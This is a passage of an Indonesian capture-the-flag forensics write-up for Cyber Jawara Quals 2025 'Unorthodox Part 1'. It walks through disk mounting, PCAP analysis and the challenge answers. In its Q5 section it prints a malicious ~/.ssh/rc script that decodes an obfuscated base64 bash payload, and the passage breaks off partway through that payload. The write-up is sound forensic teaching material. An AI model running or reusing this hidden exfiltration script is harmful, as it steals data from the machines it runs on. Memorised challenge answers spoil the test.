










import PdfViewer from '@/components/PdfViewer.astro'

Jadi, pada saat Cyber Jawara Quals 2025 kemarin, lebih tepatnya pada tanggal 25 Desember 2025, gw ngerjain soal foren mas aseng yang berjudul `Unorthodox Part 1` dan berujung upsolve (solve diluar jam lomba) karna gw stuck di pertanyaan terakhir... dan baru solve saat gw sendiri nanyain soal itu ke author nya (aseng) dan gw dpet insight baru dari chall ini.

Di chall ini kita diberi sebuah zip artifact



dan berisikan dist.zip, dan dist nya berisikan



ini isi pdf nya


Jadi disini, kita dikasih 3 files utama, yaitu `CoreStock.ova`, `PCAP_Captured.pcap`dan `exfiltrated.bin`

## Setup

disini untuk langkah awalnya kita perlu setup dulu


trus Convert VMDK → RAW pakai qemu-img

```bash
qemu-img convert -f vmdk -O raw CoreStock-disk002.vmdk CoreStock.raw
```

dan tinggal di mount raw nya

```bash
sudo losetup -P -f --show CoreStock.raw
sudo pvscan
sudo vgscan
sudo vgchange -ay ubuntu-vg
sudo mount /dev/ubuntu-vg/ubuntu-lv mnt_core
```

## Q1: Provide the current state SHA1 checksum of /etc/passwd and /etc/shadow files respectively.



Answer: `b4e536869564e1b32dfd60ea90bc45227a289c3c:e9b3129a2209be30fb0ba6ceb61e5c0ee4e47c70`

## Q2: What's the IP address of the internal threat actor (local) who's responsible to exfiltrate a certain data to their controlled website/API endpoint?

Disini kita pake file `.pcap` nya, karna dipertanyaan nya mention website, berarti kita hanya perlu filter ip yang berada di protocol http


Answer: `192.168.100.107`

## Q3: What's the path of the attacker controlled endpoint that receives the data?

Disini masih pake PCAP nya, pake wireshark nya coba follow stream ke protocol TCP, dan nnti dibagian stream ke 2 akan ada request dan response http


Answer: `/looters`

## Q4: What's the full absolute path of the targeted directory that the internal threat actor exfiltrates from?

di dalam direktori user cj terdapat file bernama `frmstarter.script`


bisa kita lihat, bahwa absolute path nya terdapat di direktori `/home/cj/core_app/company_secret`

Answer: `/home/cj/core_app/company_secret`

## Q5: Where is the malicious exfiltrator script located?

jika kita `ls -la` di direktori user cj



jika kita cek direktori `.ssh`, terdapat sebuah `malicious` script bernama `rc` berisikan kode berikut:

```bash
#!/bin/bash

base64 -d <<'EOF' | bash
ICAgJHsqfn59ICBiYSQnXHUwMDczaCcgICR7QCx9ICAgJHtAJSUtNFVJUlwoZX0gIDw8PCAgICIkKCAgICR7Ki8vd2JfPi8kXCEyVyMkeFwpfSAgJHtAJSV4WHRicnpwU30gICBwJHsqIyNVKlpwfXIiIiR7KiNmXCtFQH1pbnRmICJceCQoICAke0B+fSAgJHtALy5kcHw+dTJcKC9zXH1LXChcSjJ9ICBwXHJpXG4kJ3RcMTQ2JyAgICVzICdgMFlUZ2gnICAiJHtAfSIgICAke0AvXHtcKGM/bF59IHwgIiR7QH5+fSIgICBtZDVccyR7QCN5MUZeP3AsRn11bSAiJHtAfn0iICAke0BefSAgfCAiJHtAXn0iICAkeyp+fSAgYyIidXQgICAtYiAkKCggICgtKC0oLTQiJHtALy9rWm84SlwpJC9zajMxZWlQXGB9IjMke0AjLDVxVWEsXCl0fSMkeyovdXwjXClKcX1rLSIke0AsLH0iLSI1IjEjJHsqIzFNXChSfUopKzQ1IzApKSAgKSktJCgoICAoKCItIjcke0AjI0wzTkZ9IzU0KyItIjEyIzE3KSsyMSR7Kl5efSMiNCIwKSApKSAgICR7KiwsfSAiJHtALH0iICAgKSIgICIke0AsLH0iICAke0B+fn0gIDsgJHtAXl59ICAiJHtAfn59InByIiJpJCdcMTU2J1x0JCdceDY2JyAgIlx4JCggICIke0AvL1BcITZmXixYfSIgIFxwcicnaVxuJHsqXn10XGYgJXMgJ1E8X2MnICAgJHsqJSV6PjN3JSt9ICAgfCAgIiR7QC9FO1BhRyMvRmkwaX0iICBtJCdcMTQ0JyR7QF59NSJzInUiIm0gJHsqLy9VMlVvXFtIfSAkeyp+fn0gfCAgICR7Kix9ICAiJHtAfn0iICAgXGNcdSd0JyAgIC1iICAgJFsgICgoMzkjIjIiKy0zIiMiMTApKyI2IiMkeyolJTZVPGpcZCR9MTApIF0tJFsgICgtKC0oIjIiIjIiIyR7QH5+fTArNCMiMSIzKSsiMyIiMCIjMSkpIF0gICAkeyovN3cwbmtwUn0gKSIgJHsqfSAgICYmICR7QC8vblxdVGIvQDlHJU19ICAgcHJpIm4idGYgICJceCQoICAkeyosfSAgJHsqLH0gICQnXHg3MHInJyckJ1x1MDA2OSduJCdcdTAwNzQnIiR7QCx9ImYgICAlcyAgICd3RDUrUlwwWicgICAkeypefSB8ICAkeyolJT0zOFReeX0gICJtIiJkIiQnNVx1MDA3MyckeyolJVdUbk59dW0gJHsqfSB8ICAkKiAgICIke0AvX1whJUd9ImMndSckeyp+fn10ICAtYiAkKCggICAoKC0yNyNjKyR7Kix9NTUjZCkrMiMkeyojajpcKXwlfTExMCkgICkpLSQoKCAgKCgtIjMiMyMiMiIqMjMiIyIiMiIpKzM3I2MpICkpICAiJHtALy9cKXJcYHIvJE5FMn0iICApIiAkeypefSAgICQqIDsgJHsqLy9yVUQmSX0gIHBccmkkJ1x4NmVcMTY0J1xmICAiXHgkKCAgICR7QCMjeHE7WG19ICIke0AvRW4wJkM8Oip9IiAgICdwJycnXHIkeyovTjNibS9RXH06XFt9aScnbnRmICAgJXMgJ1ByZEMnICAke0AvPz45LiVufSB8ICAgJHtALCx9ICAgJHtAfn0gbWQkJ1x4MzUnJHtAfn1zdScnXG0gICAke0AjI2dISU5cfUh9IHwgICAkeyovL09AYVJaemt9ICAgJHsqIyMsR3NCfSAgYyIke0BeXn0idSR7Ki8vK1wpXGBaOipcci9fWU1xfXQgICAtYiAgICQoKCAgKCgxMiMiJHtALCx9IjAqMiR7Ki80cnYjJlxgTHx9IzApKyI4IiR7KiVce3Q+JTElX30jMSkgICApKS0kKCggICgoLTcjMSo1OSR7QCUlXCFxUGg7PDAxfSMwKSszIjEiIzIpICkpICR7IUB9ICR7Ki8vRVwidip9ICAgKSIgJHsqLCx9ICAgJiYgICAkeyovL0JVZkxIZy9cXSZhdX0gICIicHIiIlxpbnRcZiAgIlx4JCggICAiJHtALCx9IiAgICIke0AjIzw7RyZUQX0iICQnXHg3MCdyaScnJHsqI0tDZ1xdRS01fW50JycnZicgJXMgICc+ZCZMJyAgJHsqfn59ICAgfCAkeyEqfSAgICIke0B9IiAnJyJtImQ1XHMndSciJHtALy8zeHwudkl9Im0gICAke0BeXn0gfCAgICR7Kix9ICAgJHtALy9wUzl5MDg3MH0gIGN1JHsqLzguK2YvI352PHl9dCAgLWIgJCgoICAoLSgtKDYxJHtAL2J0NyVzcmF9IyIke0AvSnJcW0FoLzFDLWJ4TzF8fSJlKzYke0AjI3NtTFwpYlx9Xn0yI0gpKyIxIjMiIyIyIjEiKSkgKSktJCgoICAgKCgkeyovXFtEPGVRUX0tMiMxMSskeyovL1woelZkL3lsXCR9LTkiJHtAI1hXc203MlxbRX0iIzEke0AjIypTXnxENlxcfTcpKyR7KiwsfTI3IiMiMW4pICkpICAiJEAiICkiICAkeyojIzFXLX5jXClBfSAgIDsgJHtALH0gICAkeyovLzgyN34vP1wpYS0/OU59ICAgJ3AncmludCJmIiAiXHgkKCAgJHshQH0gICR7QC8vOmJpJXwvdVhcXUh9ICIiXHAkeyp9ciQnXHUwMDY5JyduJ3QiImYgICAlcyAnbTsuNjonICR7KiUlaWVkXmR9ICAkeyosLH0gfCAgIiR7QF59IiAgICIke0BefSIgICIiIiR7QC96ZmdZL05KSW5MPGh3fSJtImQiNXNcdSIke0AlQEV5P01SfSJtICAke0Avc0VcXXw0Tn0gICAkeyojPFwocF9ES0N9ICAgfCAgJHtAJVZHSmwkfSAgJCdcdTAwNjMnXHUndCcgIC1iICAgJCgoICgoLTUzI2ErLTUjJHsqLy80XCltbCpBUS9GT3MzXCh9MTApKzQ5IyR7KiUlSyZTajt3UX1sKSAgICkpLSQoKCAgICgoIi0iNSIke0AjfmVnKix9IjcjMS0yMyMxKSs0IyIke0AjI3Ixcnd9IjIxKSApKSAkeyovL3VmXmYvMU5cIUl2MX0gKSIgICR7Ki9cfS1DVjpfby92dyMzfSAmJiAgJHsqLy8zNUI/RzZ9ICAgcCQnXHg3MicnaSdudCR7QC8vXClcczozcGl9ZiAgIlx4JCggJHsqL0ZMNnN4QHo0L0lHVzxXUH0gICAkeyova1dJJXNce1Z9ICAnJyJwInJcaSQnXHUwMDZlJyIiInQiJHsqL1xbPVxgXE19ZiAlcyAnQlkiMCcgICR7QCwsfSAiJHtAJSVJZTdZX01ycX0iICAgfCAgICR7KiVnNywzfSAiJHtAXn0iICAgbSQnXDE0NCckKCggICgoIjQiIiR7QCx9IjkjIjAiKjM5IyIxIikrNCIjIjExKSAgICkpJEBzJ3UnbSAgICR7QCwsfSAgIiR7QC8vLnIkNEdRNi9cKTpTRixcYDt9IiAgIHwgICAkeyp+fn0gXGN1J3QnICAgLWIgICRbICgoLSR7Kl5efTgiIyIxNiszIzEwJHsqLy84N0FWYVdaL1c1Zm1HfTApKzQke0AsLH04IiMiQSkgIF0tJCgoICAgKC0oLSg1MSNiKyR7QCU7RmVTXkV9MzgjIjEiImUiKSskeyp+fTE0IiMiMjMpKSAgKSkgICAkeyovamJiO3pYLC8wXH05XChZK30gICAkeyovU0w2UDg4fSAgICkiICAke0BefSAgIDsgJEAgICBwcmkibiJ0ZiAgICJceCQoICAgJHshKn0gICR7Kn59IHAkJ1x4NzInaW4iInQiIiQnXHUwMDY2JyAgICVzICAnXEAhbmlJM0MnICAke0B9ICAiJHtALy9CWFx9O0F9IiAgIHwgJHsqLCx9ICR7KiwsfSBtIiJkIiIkWyAoKDU0IzEqIi0iMiR7Ki9rQTNmfTQiIyIxKSs2IiMiMSIwIikgXScnXHMkJ1x4NzUnJCdcMTU1JyAgJHshQH0gICAiJHtAXn0iICB8ICAgJHsqXn0gIFxjdSIke0AvL2dURj81Z30idCAgLWIgICAkKCggICAoLSgtKCIzIjIiIyJmLSI0IiIjIjExKSsxIjQiIiMiMSkpICkpLSRbICAoKC0zIyIke0AlfjFcTXUzU30iMSIxIio0MiMxKSsxMyMxMSkgICBdICAiJHtAfn0iICAgJHsqfn0gICkiICAgJHsqLy84SWk3PS8tUUElT30gJiYgICR7KiVnbkk2azFNXCh9ICAkeyoldllcKCYqfSBccCcncmluJyd0J2YnICAiXHgkKCAkeyojQ05nLnpuZ30gIiR7QC9jdlwhVS9fTkd6TTY6Qn0iICBccCIiclxpbnRmICAlcyAgJ0ohQFgnICAgIiR7QCM3OFxbemwzOXd9IiAgJHsqLy9heVBIdi98bjM/VU8+S30gICB8ICAkeyFAfSAgICIke0B+fn0iICAgbWQkKCggKCgzIzIqIjMiNyMwKSszIiMiMTIpICApKSQnXHUwMDczJyQnXDE2NSdcbSAgICIke0AvLi4ublxdTnMveTtPQCZnRVN9IiAgJHtALH0gICB8ICAiJHtAXl59IiAgICQnXHg2M3UnIiIkeyovMV5rRH10IC1iICAkKCggKCgkeyFAfTIiIyIke0B+fn0xMSo1MSIjIiR7ISp9MikrIiR7QC9cISNfRUJcYEsvLGpcW1V1bn0iNiMxMSkgICkpLSQoKCAgICgoLTIwIyR7Ki9vV0c8ZC9LTlZNXCl0JH1nKzU4IiMiZSkrNCIke0AlJVBcW3dJNTFTZH0iNiNnKSAgKSkgICR7KiwsfSApIiAke0AvLzdyXH04NS8jWVJwfSAke0AlSUZPaH0gIDsgJHtAI0doayxccnFcKX0gcHInaSdcbiIke0AjI3hcKFwoRWJ9InQnZicgICAiXHgkKCAgICR7QCNZc19zN0YsfSAgIiR7QCMjfCpvNn0iICBccHIiImludCR7Kn5+fWYgJXMgJylpV2snICAgIiR7QC9+XChjcXJmLyZcKCNcIlxgM0J9IiB8ICAiJHtAfn0iICAgbSIke0AsfSJkNXMidSJcbSAgJHsqfn59ICB8ICAgIiR7QCx9IiAkQCAgIiR7QC9LMURadjkvJlFyJHJ5N30iYyJ1InQgIC1iICAkKCggKC0oLSgzNyNpLSI2IiR7Kl59IzEkeyolNUF5ZFxgZyR9MCkrJHsqXn00MiR7Kn5+fSMxKSkgICkpLSQoKCAgKC0oLSgiLSIkeyp+fTIkeyEqfSMxMDEqIi0iMyIjIiIxIjApKzIiIyIxIjEiKSkgKSkgJHsqLCx9ICIke0AsfSIgICApIiAgICR7QH5+fSAgJiYgICAke0BefSAiInAnJ3JpIiIkJ1wxNTZ0JycnXGYgICJceCQoICAgJHsqLy8xNl5ZL3lAXzo5cT99ICAkeyFAfSAgJHtAXl59cCIicidpJyJuIlx0XGYgICAlcyAne3FdaC1ZRScgICAkKiAgIHwgJHsqfn0gICAke0B9ICcnbScnZCIiNSdzJ3VtICR7QH0gICAkeyp+fSB8ICAgJHsqfn59ICAgY3UidCIgICAtYiAgJFsgKCgiNCI4JHsqXn0jbC01NiMiJHtAXn0iZikrNCR7KiM7cl9VV1FjRX03JHsqXl59IyJsIikgXS0kKCggICgoMiMxMDEwKi0iNyIjMTEpKzQjMSIyIjMwKSAgICkpICAkeyp+fSAkeyp+fSAgICkiICAkeyolJUBJRG06fSA7ICAkeyovLTRnPzhjXF0vX1wpWlx7c1wwfSAgICR7Kix9ICJwInIiJHtALy9cISVJZ3JcXVN2fSJpbnQkJ1wxNDYnICAiXHgkKCAgICR7KiMjUUxcaF59ICIke0Alb1xVWj9qWn0iICAgJCdceDcwXHg3MidcaW50ZiAgICVzICAnZ05FJVJKJjwnICR7KiUlXHtwNmV9ICQqICB8ICAkeyEqfSAiJHtAfSIgICIiJCdcMTU1JydkJycnNXN1JHsqfW0gICAkeyovJjBJX2VcW2t9IHwgIiR7QF59IiAgICR7KiUlSkxKN1x7K359ICBjdSd0JyAgIC1iICAgJFsgICgoJHsqfn59LTEiMiIjIiR7QF5efSIzMisiNSIjMTEwKSsiJHtAJSVVRTImK30iMTUjIjEiZSkgICBdLSRbICAoKC0zIyIxIjEtIiR7QCNvXH1WMn0iLSR7Kn59MTQjMTYpKyIyIiMiMSIiJHtAXl59IjEwKSBdICR7Ki9cW1w0QS9pV1hUX1xgaX0gIiR7QC9cKTpcXS5+O2JnfSIgKSIgICQqICA7ICAke0B+fn0gICAke0AvQGNDclwoV1xcfSAgIHAiciIkeyp+fn1pJCdcdTAwNmV0ZicgICAiXHgkKCAkeyovMHB2fl5IJS89XFtcW3lqcExEfSAgIiIkJ1wxNjByaSciJHtAIyNBJWRkfSJuJCdcdTAwNzQnJHsqfn1mICAgJXMgICAnbVB1KDUnICR7Kl5efSB8ICR7QH0gICAkeyovL0EyPlx7bC9DJSotXHtkcl99ICAgXG1kNSJzIiR7QCMjOkg6djtcIkEtfXUkJ1x1MDA2ZCcgJHsqIyNVNjRlX30gfCAgJHshKn0gICR7QC9lcXc7PWNxfSAgXGMidSInJyIkQCJ0ICAgLWIgJFsgKC0oLSg4IyR7KiwsfTAtLSI2IiIke0AsfSIyIiMidykrIiR7QH59IjIjIjEiMDApKSBdLSQoKCAgKCgtNSR7Kix9MyMxLSR7KiVna1M4PGclfTQjMSR7Ki9jRVgxVX5mO30zKSsiMiIxIyR7QF5efTFnKSApKSAkeyovLzN6WHR6KjEvJH5oOX0gICAke0AvbCZKYXhwL1V1dVxKSTFQfSAgICkiICAgIiR7QH0iICAgJHtALCx9ICAgJiYgICAke0AjI2pMPC40Mlx9fSAgJHtAIzpcfVxgTXZefn0gJHsqIyNjaj53Kn1wcmluXHQiZiIgIlx4JCggIiR7QH0iICAkJ1x1MDA3MHInIiJpbiR7QC8vXGBsNGpaMn10ZiAgICVzICAncldGXWh1ficgICR7IUB9ICB8ICAgIiR7QF59IiAgICR7Ki8vRlwoXH1cUG02L1lFVFZ9ICAgJHtAfn59bWQiIiR7Ki8vXH1sWEt9NVxzIiJ1bSAgJHtAfSAgJHtAfSB8ICAgIiR7QCMrXH02fFwpPj99IiAke0B+fSAkeyp+fWN1dCAtYiAkKCggICgoMiR7Kn5+fTUjMSokeyp+fS00NyMyKSskeyFAfTQjIjIiIiR7QH59IjApICAgKSktJCgoICAgKCg1MyIke0B+fSIjMioke0AvXjRecjE4ZVV9MTgiIyIyKSsiJHtALy9QaXhOZ0R9IjMjMTApICAgKSkgJHtALH0gICkiICAkeyp+fn0gICAmJiAgICIke0AvXCkldmp9IiAkeyovNDUkTS8zVFwpbX0gICAkJ1x4NzAncicnaW4keyFAfXQke0AsfWYgIlx4JCggICR7QCMjXClXdF8+P3N+fSAiIlxwciJpIm4nJ3QiZiIgICAlcyAgICdjbmUyIicgJHsqXl59ICAgJHsqfSAgfCAgICR7Ki82eSM7WC9yVHJEfSAiJHtALzEkOW1jLzdVUSMtUn0iICBtZCI1IiR7KiVcImRcWzd6fXMnJyQndVx4NmQnICAiJHtALH0iIHwgICAkeyosfSAiJEAiIGN1J3QnICAgLWIgJFsgICAoKCQqLTIzIiMiImYiLSR7Ki8vUlR3PG8vOTIsems4JX0tMzUjMSkrNDEjJHsqXl59RSkgICBdLSQoKCAoKDI5I20tIiR7QC9LJGd4XGAvXFs2Xn5cXX0iNSR7Kix9OCNoKSsiMiIwIzEiMiIpICkpICAgJHtALy9DN2UjUE9tfSApIiAgJHsqL2JLWTM9elgtfSAgIDsgICAke0AsLH0gJCdceDcwXDE2MicnaScnbid0ZiAiXHgkKCAgIiRAIiAiJHtAI1xgZD1TWnp0NH0iIHAnJ3IiImkiIm4idCJmICVzICduLkFzXS4nICR7Ki9cKVR5aH0gICAkeyp+fSB8ICAgIiR7QF59IiAgJCdceDZkJyQnXDE0NCcnJyI1InN1JHtAL0N0UFo5OVwhfW0gICAke0AlJW5cIU86a30gICR7Kn59ICAgfCAgICIke0AsfSIgIGMidSIkJ1x4NzQnICAtYiAkWyAoKC0zNyMkeypefTIqLSIxIjEjMikrMiR7Kn02JEAjaykgIF0tJCgoICAoKCIzIiMyJHtALy8qXFtce1w2PS9tQ1RAcWNcYFB9MSotMyMxIjEiKSs1IjQiIyJSIikgICApKSAgICR7KiMjT25QVn0gJHsqJTU6WlxdcFxbfSAgKSIgJHsqLH0gIDsgICAkeypefSAgcCJyImluXHQnZicgICAiXHgkKCAgICR7IUB9ICAkeyp+fSAkKnAiciInJ2lcbnRmICAlcyAgJ0A1b1snICAgJHsqLH0gJHtAI0ZSeXdyfSB8ICR7Ki8vSiNcXVFud3dNfSAgICIke0AlJXB5QmUmXF1TfSIgICAkJ21ceDY0NXMnJCd1XHUwMDZkJyAgICIke0BeXn0iIHwgICR7KiV5c1VFfSAiJHtAI3BjXHsufSIgXGMndScnJyQnXHg3NCcgIC1iICAkKCggICgoLTE3IiMiMisxNSMiJHtAfSIyKSsiJHtAIyNjZlg0d3l9IjIiJHtAfSIjIjEiKSAgKSktJCgoICAoKCR7Ki8vI1xgT2o+U301IiR7QCwsfSI1IyR7QC8vPzwjOkEvYy5FblJuaEt9MC0tJHsqL3E0bm12eC9WU15fXGBrLX00IjIiIyIxIikrMTEjIjEiKSApKSAgICR7Kix9ICAgKSIgJHsqL2lFXFs5YlMvZW95JWFXWjR9ICAgJHsqIyNSXHs4TVx9OEl9IDsgICAke0BefSAgIHAnciciaSJuJ3QnXGYgIlx4JCggICR7Ki9eXHtcW0R9IHAkeypefXIkJ1x1MDA2OScnJyJuInQkeyovYyQlI3Vce0QvRW81TjI7fWYgICAlcyAgICcpe3k8NE5CRycgJHsqfn59ICB8ICAkeyEqfSAgIG0iImQnNSciInMkeyosfXVcbSAiJHtAIy5HdlwofH0iICB8ICAgIiR7QCNrelwiUnpQJDB9IiAkeyovQHNeJlN9IFxjJCd1XHUwMDc0JyAgIC1iICAgJFsgKCgiLSI1JHsqL3AzRFwpL2kwXH0jfSMxMio0MiIjIjApKzYkeyp9MSMiZSIpIF0tJFsgKC0oLSgiNCIxI2UtIi0iIjQiIjgiI3MpKzUiOSIjcikpICAgXSAkeyojI1xbWDh+fjdhfSAkeyovLzYuLnI0L0J0TU99ICkiICAgJHsqI000XCgjJn0gOyAiJHtALy8rfmZQYWpMTn0iIHAkeyp9clxpXG5cdGYgIlx4JCggICR7IUB9ICAgJHsqIyNjXH1ORnl+PGF9ICBwJHsqIy5cKGJcW2dofXJpbicndCIiZiAgJXMgICdPZ1FyXScgICR7Kn5+fSB8ICAiJHtALCx9IiAgIG0iZCI1cyIidW0gICR7QCMjPWJZTlxbUEF9ICAgJHtAJSVeQmgmLSY1fSAgIHwgICAkKiBjIiJ1dCAtYiAkWyAgICgtKC0oMyMxMCsyMCMiYSIpKzIjIjEiMCR7Ki8vXFtjWVUvXCk3JUpaPH0wMCkpICAgXS0kWyAgICgoMyIjIjEkQDAqIi0iIiRAIjUyIiMiJHsqJSU1bz9nRzZcKH0xKSsyIiR7QC9yV3krP30iIyIxIjAwIjEiKSBdICAgJHsqLH0gICAiJHtAJXVcYFw0dH0iICApIiAgJCogJiYgICAiJHtALy9YbFx7Q1x7Ny87TEEufSIgICBwclxpJHtAfW4ndCciJHtALy8+SSpZRHlcImIvQCsuY1hIfSJmICJceCQoICR7QC8vbzZcYF5XWlFMfSAgICR7Ki8vOEhaYzcvM1IwPzFcKEoyfSAgICJwIiIicmkkJ1wxNTZ0ZicgJXMgICckY0J1bHonICAkeypefSAgfCAgICR7Ki9cfXVzSDV9ICAkeyosLH0gJCdcdTAwNmQnZDUiInMke0BefXVtICR7QC8vY1xgXChWL1AuXH04WVxgZHV9ICIke0AvNHlQaVxoL0txNFxgfSIgIHwgJHtALCx9ICR7Ki8vTU1OYn1jIiJ1dCAgIC1iICQoKCAgICgoLTIjMTAwKjIke0AjREZsXHt9IzEwIiR7QCwsfSIxKSsiNSIkeyojI3RCdWdMUX0zI0EpICkpLSQoKCAoKC0iMiI0I2MrLSIyIiMxJHtAfTEpKzMke0B+fTkjIiR7QCwsfSJ3KSApKSAkeyovL0wkeGsqL09GXF1cKFN5R30gICR7KiUlPTg/LU0kZGp9ICkiICAkQCAgICYmICAke0AvdCZYdX0gcCR7Ki8/XHs7dk4vXjpce0t5SipWfXJcaW50IiR7QCVVTmw2RVwhKn0iZiAiXHgkKCAkeyp+fn0gJHtALH0gICAkJ1x1MDA3MCcncidpbnRmICVzICc7PUl8czZWMScgJHsqJVx7ZTNCfSAgfCAgJHsqLy9xbFZ0Ynd9ICAgJHsqLy9MXChccjNWfSBtXGQiIjUkJ1x4NzMndSQnXHUwMDZkJyAkeyojIy1ReHZTUzp9ICR7Ki8vTCRlYk5SXHYvRlx7VWcjSX0gICB8ICAkeyp+fn0gIiR7QC8vbnQ4Wm9sQUh9IiAkJ1x1MDA2MycnJyIke0B+fn0idScndCAtYiAkWyAgKCgiLSI2NCR7Kn0jMSozIzEwKSs0OCNmKSBdLSQoKCAoKDQ0IyR7QH59MiozNSMiMiIpKzUjMTQpICApKSAke0AsLH0gICkiICAke0Avam5LY05eMC8mQDE7ejx5fSAmJiAke0B9ICAgIiR7QC9ce3xKUksvXHsmdzRcXXU+Pn0iICBwJydyaSR7Ki9uM2VcKGdce0h6fW5cdGYgICAiXHgkKCAgJHsqfSAgICJwIlxyaScnbiQnXHUwMDc0J2YgJXMgICduWnxTPjJUYycgICAke0B+fn0gfCAgJCogJydtZDVzJycidSJtICAkeyosLH0gIHwgICR7Kl5efSAgICIiXGN1JHtALCx9dCAgIC1iICAkKCggKCgtJCozJHsqfn05IiR7QH5+fSIjYy00IiR7QF59IiMiJHtALy9Qd0k4fSIxJHsqfn0xKSs0IyIxIiR7IUB9MzMpICkpLSRbICAoLSgtKDQkeyojPixLSlgqcVZ9MyMkeyp+fW4tJHsqXl59LTIiIyIxMSkrNDIjImIiKSkgXSAke0AvL2R6dXEyVX0gKSIgICAkeyovb0hXKi9ce3hSfHRcRlx9fSAgIDsgICR7Kn5+fSAgIFxwJydyJHsqL3psXCJiLzA/dlwhfWkibiJ0XGYgICJceCQoICAgIiR7QF5efSIgIiR7QC86bEdSXH12JS9HO1plbH0iICIiJ3AnJCdceDcyXHg2OVx4NmVceDc0JyQnXDE0NicgICVzICAgJ2FuLCFDOnwnICAgJHsqLy9uXCg8LX0gICR7QCx9ICB8ICAkeyp+fn0gbWQnJyQoKCAgKC0oLSgyIiMiMTErMyI3IiIjIiR7Kl5efWEpKzQjIjIiIiR7QH59IjApKSAgICkpInMidW0gJHsqXn0gICR7QCNANHhtd1NSUH0gfCAgIiR7QC8vXF1cIXIuQC9JJSxpPX0iICIke0B+fSJjdSR7Kn10IC1iICQoKCAgKC0oLSgiMiIjMTAtLTM3IzIpKzMjIjEiMCkpICApKS0kWyAgICgoIiR7QC8xLm91d2V9IjYwIzAtJHsqL2tcXzkvbWFBWiV9MTgjIjAiKSs1NCMyKSAgXSAgICR7Ki8vRXM3JS8xNFNXJVxdcn0gJHsqLCx9ICAgKSIgICAkeyovLUlAYy9oOitOfSAgICR7Kix9ICAmJiAgICR7Ki8veEE5LktuaEwvOypcITJ9ICIke0B+fn0iICAgInAicmkiIlxuInQiXGYgICJceCQoICAkeyojSjpvLVxbcH0gICR7Kn59ICAicCJyJCdpXDE1NnQnJHsqIyMuXk4jdkdsNH1mICVzICc3RUhEJyAgJHsqL1VRQ0Z9I